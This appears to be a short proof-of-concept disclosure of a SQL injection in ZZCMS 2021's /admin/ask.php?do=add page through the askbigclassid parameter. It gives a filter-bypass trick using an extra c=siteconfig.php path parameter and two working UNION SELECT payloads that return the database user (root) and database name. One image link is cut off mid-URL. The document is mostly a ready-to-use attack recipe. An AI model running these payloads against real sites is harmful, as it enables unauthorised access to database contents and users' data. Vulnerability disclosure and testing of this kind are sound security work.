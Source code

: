 # ZZCMS 2021 SQL Injection POC

Profile
-----
    ZZCMS2021 has a SQL injection vulnerability that allows an attacker to access /admin/ask.php?The askBigClassid parameter on the do=add page retrieves sensitive data, causing sensitive information leakage of users.

Location
----
    http://ip/admin/ask.php?do=add

POC
----
1.Request the page as normal and get the response
![](http://w
2.If the invalid character "select" is used, the response will report an error

3.Use the c=siteconfig.php parameter in the request path to bypass sensitive strings such as select
Payload：askbigclassid=-1+union+select+user(),2,3,4,5,6,7,8,9,10,11
Query the current user name: root

4.Payload：askbigclassid=-1+union+select+database(),2,3,4,5,6,7,8,9,10,11
Query the current database name: ZZCMS
